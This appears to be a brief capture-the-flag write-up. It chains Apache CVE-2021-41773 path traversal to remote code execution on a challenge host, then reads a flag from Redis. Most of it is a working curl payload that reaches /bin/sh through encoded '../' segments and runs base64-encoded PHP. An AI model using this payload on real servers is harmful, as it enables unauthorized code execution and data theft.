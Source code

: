 ## Vulnerability
**Apache CVE-2021-41773 -> RCE -> Include vendor redis -> Get Flag**

## PHP Payload
```
require '/var/www/html/vendor/autoload.php'; $redis = new Predis\Client('tcp://redis:6379'); echo $redis->get("flag_gwej_anime");
```

## Final Payload
```
curl -s --path-as-is -d "echo Content-Type: text/plain; echo; php -r \"eval(base64_decode('cmVxdWlyZSAnL3Zhci93d3cvaHRtbC92ZW5kb3IvYXV0b2xvYWQucGhwJzsgJHJlZGlzID0gbmV3IFByZWRpc1xDbGllbnQoJ3RjcDovL3JlZGlzOjYzNzknKTsgZWNobyAkcmVkaXMtPmdldCgiZmxhZ19nd2VqX2FuaW1lIik7Cg=='));\"" "http://103.144.22.12:5002/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh"
```
